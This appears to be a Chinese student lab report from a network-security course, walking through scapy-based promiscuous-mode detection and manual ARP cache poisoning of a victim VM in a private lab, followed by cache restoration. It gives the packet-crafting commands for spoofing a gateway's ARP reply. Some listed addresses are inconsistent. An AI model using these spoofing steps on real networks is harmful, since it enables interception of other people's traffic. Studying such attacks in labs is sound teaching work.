










# 第四章实验：网络监听
## 网络拓扑结构



网络中的节点基本信息如下：
```
攻击者主机：Kali-attacker
08:00:27:0e:34:8d / eth0
172.16.111.112/24

受害者主机：Kali-victim-1
08:00:27:0e:34:8d/ eth0
172.16.111.111/24

网关：Debian-gateway
08:00:27:4d:d4:ab/ enp0s9
172.16.111.1/24
```     

## 安装scapy

- 首先在攻击主机上安装scapy,并且安装好python3
```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```





## 实验一：检测局域网中的异常终端

- 首先在受害者主机上检查网卡的混杂模式是否启用

  ip link show eth0

  

- 之后在攻击者主机上开启 scapy

  sudo scapy

  

- 开启scapy之后，在scapy的交互式终端输入以下代码回车执行：
  ```
  pkt = promiscping("172.168.56.111")
  ```
  
  

- 回到受害者主机上手动开启该网卡的「混杂模式」
  ```
  sudo ip link set eth0 promisc on
  ```
  
- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC
  ```
  ip link show eth0
  ```

  

- 回到攻击者主机上的 scapy 交互式终端继续执行命令
  ```
  pkt = promiscping("172.16.111.111")
  ```
  两次pkt结果对比:

    

- 在受害者主机上手动关闭该网卡的「混杂模式」
  ```
  sudo ip link set eth0 promisc off
  ```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存
- 受害者主机初始ARP缓存信息
 
   

以下代码在攻击者主机上的 scapy 交互式终端完成

- 构造一个 ARP 请求
  ```
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  ```

- 查看构造好的 ARP 请求报文详情
  ```
  arpbroadcast.show()
  ```
 
   

- 发送这个 ARP 广播请求
  ```
  recved = srp(arpbroadcast, timeout=2)
  ```

   

- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.111，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  ```
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111",hwdst="08:00:27:0e:34:8d")
  ``` 
- 发送上述伪造的 ARP 响应数据包到受害者主机
  ```
  sendp(arpspoofed)
  ```

   

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ```
  ip neigh
  ```
  
    

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
  ```
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:a6:e8:f6", pdst="172.16.111.111", hwdst=" 08:00:27:0e:34:8d")

  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
   

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  ```
  ping 172.16.111.1
  ```
- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ```
  ip neigh
  ```

     

## 参考资料

- [2020-ns-public-Crrrln](https://github.com/CUCCS/2020-ns-public-Crrrln/blob/chap0x04/chap0x04/exp4.md)
